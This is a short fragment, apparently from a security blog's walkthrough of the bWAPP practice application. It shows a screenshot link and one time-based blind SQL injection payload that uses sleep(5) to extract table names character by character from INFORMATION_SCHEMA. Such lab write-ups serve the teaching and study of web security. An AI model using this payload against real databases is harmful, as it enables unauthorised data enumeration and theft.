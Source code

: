 [![sqlinjectblindsleep12](/images/sqlinjectblindsleep12.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep12.png)

```sql
' or 1=1 AND substring((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_type='base table' AND table_schema='bWAPP' LIMIT 3,1),3,1) = 'e' AND sleep(5)-- -
```
